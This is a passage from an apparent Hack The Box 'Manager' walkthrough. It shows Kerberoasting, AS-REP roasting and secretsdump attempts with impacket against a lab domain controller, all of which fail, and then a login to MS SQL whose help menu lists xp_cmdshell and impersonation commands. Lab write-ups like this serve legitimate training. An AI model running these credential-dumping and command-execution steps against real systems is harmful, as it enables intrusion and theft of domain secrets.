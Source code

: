 ##### Kerberoasting & AS-REProasting & Secretsdump

```bash
┌──(kali㉿kali)-[~/htb/share_sysvol/manager.htb]
└─$ impacket-GetUserSPNs manager.htb/operator:'operator' -dc-ip 10.10.11.236
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

No entries found!

┌──(kali㉿kali)-[~/htb/share_sysvol/manager.htb]
└─$ impacket-GetNPUsers manager.htb/operator:'operator' -dc-ip 10.10.11.236
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

No entries found!

┌──(kali㉿kali)-[~/htb/share_sysvol/manager.htb]
└─$ impacket-secretsdump manager.htb/operator:operator@10.10.11.236
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
[-] DRSR SessionError: code: 0x20f7 - ERROR_DS_DRA_BAD_DN - The distinguished name specified for this replication operation is invalid.
[*] Something went wrong with the DRSUAPI approach. Try again with -use-vss parameter
[*] Cleaning up... 
```

None of these are working..
I think usual AD attack methods are not working for now.
Let's tamper MS SQL this time.


# Shell as `raven`

```bash
┌──(kali㉿kali)-[~/htb/share_sysvol/manager.htb]
└─$ impacket-mssqlclient manager.htb/operator:operator@10.10.11.236 -windows-auth
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
SQL (MANAGER\Operator  guest@master)> help

    lcd {path}                 - changes the current local directory to {path}
    exit                       - terminates the server process (and this session)
    enable_xp_cmdshell         - you know what it means
    disable_xp_cmdshell        - you know what it means
    enum_db                    - enum databases
    enum_links                 - enum linked servers
    enum_impersonate           - check logins that can be impersonated
    enum_logins                - enum login users
    enum_users                 - enum current db users
    enum_owner                 - enum db owner
    exec_as_user {user}        - impersonate with execute as user
    exec_as_login {login}      - impersonate with execute as login
    xp_cmdshell {cmd}          - executes cmd using xp_cmdshell
    xp_dirtree {path}          - executes xp_dirtree on the path
```